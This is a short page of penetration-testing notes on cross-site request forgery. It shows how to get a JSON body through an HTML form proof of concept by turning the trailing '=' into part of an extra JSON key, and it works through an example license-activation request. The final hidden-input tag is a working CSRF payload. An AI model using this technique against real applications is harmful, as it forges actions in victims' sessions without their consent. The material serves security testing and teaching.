 # 10	CSRF

## 10.1	BASIC

## 10.2	CSRF WITH JSON PAYLOAD [48], [49]

- Problem: When submitting a JSON payload with Burp-generated PoC, it will end up looking like below, with an extra '=' character at the end. This is because it's trying to emulate a form parameter like "param1=value1".
```
{"activatees":{"activatee":[{"activateeEmailId":"","activateeEnterpriseId":"300007714280","isDefault":true,"isEnabled":true,"addIfNotAvailable":true}]},"activationProductKeys":{"activationProductKeyId":[{"activationQuantity":1,"productKey":"f5dbdc8e-2837-4313-a6de-5f9bba954a77"}]},"activationAttributes":{"activationAttribute":[{"name":"MaintenanceExpiration","value":"2025-05-02","readOnly":false,"mandatory":true,"associatedAttribute":null},{"name":"FileName","value":"IntelLicense.lic","readOnly":false,"mandatory":true,"associatedAttribute":null}]}}=
```
- HTML tag that generates:
```
<input type="hidden" name="&#123;&quot;activatees&quot;&#58;&#123;&quot;activatee&quot;&#58;&#91;&#123;&quot;activateeEmailId&quot;&#58;&quot;&quot;&#44;&quot;activateeEnterpriseId&quot;&#58;&quot;300007714280&quot;&#44;&quot;isDefault&quot;&#58;true&#44;&quot;isEnabled&quot;&#58;true&#44;&quot;addIfNotAvailable&quot;&#58;true&#125;&#93;&#125;&#44;&quot;activationProductKeys&quot;&#58;&#123;&quot;activationProductKeyId&quot;&#58;&#91;&#123;&quot;activationQuantity&quot;&#58;1&#44;&quot;productKey&quot;&#58;&quot;f5dbdc8e&#45;2837&#45;4313&#45;a6de&#45;5f9bba954a77&quot;&#125;&#93;&#125;&#44;&quot;activationAttributes&quot;&#58;&#123;&quot;activationAttribute&quot;&#58;&#91;&#123;&quot;name&quot;&#58;&quot;MaintenanceExpiration&quot;&#44;&quot;value&quot;&#58;&quot;2025&#45;05&#45;02&quot;&#44;&quot;readOnly&quot;&#58;false&#44;&quot;mandatory&quot;&#58;true&#44;&quot;associatedAttribute&quot;&#58;null&#125;&#44;&#123;&quot;name&quot;&#58;&quot;FileName&quot;&#44;&quot;value&quot;&#58;&quot;IntelLicense&#46;lic&quot;&#44;&quot;readOnly&quot;&#58;false&#44;&quot;mandatory&quot;&#58;true&#44;&quot;associatedAttribute&quot;&#58;null&#125;&#93;&#125;&#125;" value="" />
```
- Solution: craft the form payload so that an additional JSON pair is added that looks like `"newKey=":"newValue"`
	- The URL param '=' becomes part of the JSON key name
	- JSON typically doesn't care about extraneous values added
- New HTML tag:
```
<input type="hidden" name="{&quot;activatees&quot;:{&quot;activatee&quot;:[{&quot;activateeEmailId&quot;:&quot;&quot;,&quot;activateeEnterpriseId&quot;:&quot;300007714280&quot;,&quot;isDefault&quot;:true,&quot;isEnabled&quot;:true,&quot;addIfNotAvailable&quot;:true}]},&quot;activationProductKeys&quot;:{&quot;activationProductKeyId&quot;:[{&quot;activationQuantity&quot;:1,&quot;productKey&quot;:&quot;f5dbdc8e-2837-4313-a6de-5f9bba954a77&quot;}]},&quot;activationAttributes&quot;:{&quot;activationAttribute&quot;:[{&quot;name&quot;:&quot;MaintenanceExpiration&quot;,&quot;value&quot;:&quot;2025-05-02&quot;,&quot;readOnly&quot;:false,&quot;mandatory&quot;:true,&quot;associatedAttribute&quot;:null},{&quot;name&quot;:&quot;FileName&quot;,&quot;value&quot;:&quot;IntelLicense.lic&quot;,&quot;readOnly&quot;:false,&quot;mandatory&quot;:true,&quot;associatedAttribute&quot;:null,&quot;activatees" value="&quot;:&quot;x2467&quot;}]}}" />
```
